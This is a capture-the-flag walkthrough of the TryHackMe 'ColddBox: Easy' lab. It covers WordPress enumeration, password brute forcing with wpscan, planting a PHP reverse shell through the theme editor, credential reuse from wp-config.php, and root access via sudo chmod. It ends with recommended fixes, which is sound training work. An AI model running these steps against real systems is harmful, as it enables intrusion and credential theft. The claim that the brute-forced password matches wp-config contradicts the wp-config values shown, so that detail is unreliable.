# 🧊 ColddBox: Easy — TryHackMe

**WordPress Exploitation & Linux Privilege Escalation**

> A beginner-friendly but realistic penetration testing lab focused on WordPress exploitation and Linux privilege escalation.

---
## 📌 Machine Info

| Field      | Value           |
| ---------- | --------------- |
| Name       | ColddBox        |
| Difficulty | Easy            |
| Platform   | TryHackMe       |
| IP         | `10.48.143.139` |
| OS         | Ubuntu          |
| Web App    | WordPress       |
### Challange:
`https://tryhackme.com/room/colddboxeasy`

---
## 🧠 Attack Path Overview
```
Nmap → Web Enumeration → WordPress Discovery → User Enumeration
→ Password Bruteforce → Admin Panel → PHP Reverse Shell
→ Database Credential Leak → User Priv Esc → Sudo Abuse → Root
```
---
# 🔎 1️⃣ Enumeration
### Nmap Scan
```bash
nmap -sV 10.48.143.139
```
**Result**
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 (Ubuntu)
```


Only **HTTP (80)** is open.


---
# 🌐 2️⃣ Web Discovery
### Directory Bruteforce
```bash
gobuster dir -u http://10.48.143.139/ \
-w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
Discovered paths :
```
/wp-content
/wp-includes
/wp-admin
/hidden
```
This confirms **WordPress** is running.


---
# 🕵️ 3️⃣ Hidden Page Discovery

Browsing `/hidden` shows an internal message:
> **URGENT**  
> Cold, you changed Hugo’s password.  
> Send it so he can continue uploading articles.  
> — Philip

This tells us:
- Hugo is a valid WordPress user
    
- Password was changed recently
    
- Internal credential reuse likely
    


---
# 👤 4️⃣ WordPress User Enumeration

```bash
wpscan --url http://10.48.143.139 -e u
```
Users found :
```
c0ldd
hugo
philip
```


---
# 🔐 5️⃣ Password Bruteforce
Target user: **c0ldd**

```bash
wpscan --url http://10.48.143.139 \
--usernames c0ldd \
--passwords /usr/share/wordlists/rockyou.txt
```

Credentials discovered (later confirmed via wp-config):
```
c0ldd : 9876543210
```


---

# 🧨 6️⃣ Getting a Reverse Shell
### Method
WordPress theme editor → inject PHP reverse shell.

1. Go to:
    
```
Appearance → Theme Editor → 404.php
```

2. Paste **pentestmonkey PHP reverse shell**
    
3. Start listener:
    
```bash
nc -lvnp 4444
```

4. Trigger:
    
```
http://10.48.143.139/wp-content/themes/twentyfifteen/404.php
```

You get a shell as:
```
www-data
```


---

# 🔍 7️⃣ Credential Discovery
Inside the web server:
```bash
cat /var/www/html/wp-config.php
```

Found database credentials :
```php
define('DB_USER', 'c0ldd');
define('DB_PASSWORD', 'cybersecurity');
```
Same password works for system login.


---
# 🔑 8️⃣ User Privilege Escalation
Upgrade shell:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Switch user:
```bash
su c0ldd
Password: cybersecurity
```


---
# 🧨 9️⃣ User Flag

```bash
cat /home/c0ldd/user.txt
```

```
RmVsaWNpZXRMSHByaWlciBUaXZlbCBjb25zZXRhdG8=
```


---
# 🏴‍☠️ 10️⃣ Sudo Privilege Check
```bash
sudo -l
```
Result :
```
(root) /usr/bin/vim
(root) /bin/chmod
(root) /usr/bin/ftp
```
User can run **chmod as root** → easy privilege escalation.

---
# 👑 11️⃣ Root Privilege Escalation
Give read permission to root flag:
```bash
sudo chmod 777 /root/root.txt
cat /root/root.txt
```
Root flag :
```
wqFGZkxpY2YkWlRzWgbcOhcXvpbmEgY29tcGxldGFkYSE=
```


---

# 🎯 Vulnerabilities Used

| Vulnerability              | Description                |
| -------------------------- | -------------------------- |
| WordPress user enumeration | WPScan exposed valid users |
| Weak password              | `cybersecurity`            |
| Theme editor RCE           | Upload PHP shell           |
| Hardcoded DB credentials   | Stored in wp-config.php    |
| Sudo misconfiguration      | chmod allowed as root      |

---
# 🛡️ What Should Be Fixed

- Disable WordPress file editor
    
- Use strong passwords
    
- Remove DB creds from web root
    
- Restrict sudo permissions
    
- Monitor admin logins
    
---
# 🧠 Skills Practiced

- Web enumeration
    
- WordPress hacking
    
- Reverse shell
    
- Linux privilege escalation
    
- Sudo abuse
    
---
## 🧑‍💻 Author

Ghost- Cybersecurity Learner & CTF Player
